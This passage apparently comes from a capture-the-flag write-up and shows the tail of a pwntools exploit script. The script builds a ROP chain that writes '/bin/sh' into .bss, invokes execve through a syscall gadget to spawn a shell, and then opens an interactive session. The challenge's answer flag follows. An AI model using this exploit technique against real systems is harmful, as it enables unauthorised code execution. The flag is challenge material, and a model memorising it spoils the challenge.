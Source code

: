 ```python

    # arbitrary write /bin/sh\0 to bss
    rop.rsi = elf.bss()
    rop.rax = b"/bin/sh\x00"
    rop.raw(mov_qword_ptr_rsi_rax)

    # execve("/bin/sh", NULL, NULL)
    rop.rax = constants.SYS_execve    
    rop.call(syscall, [elf.bss(), 0, 0])

    payload = flat({ offset:[rop.chain()]}, filler=b"\x00")
    io.sendline(payload)
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`ITFEST25{tH4nK5_f0R_My_f1R5t_R0p_rEV5h3lL}`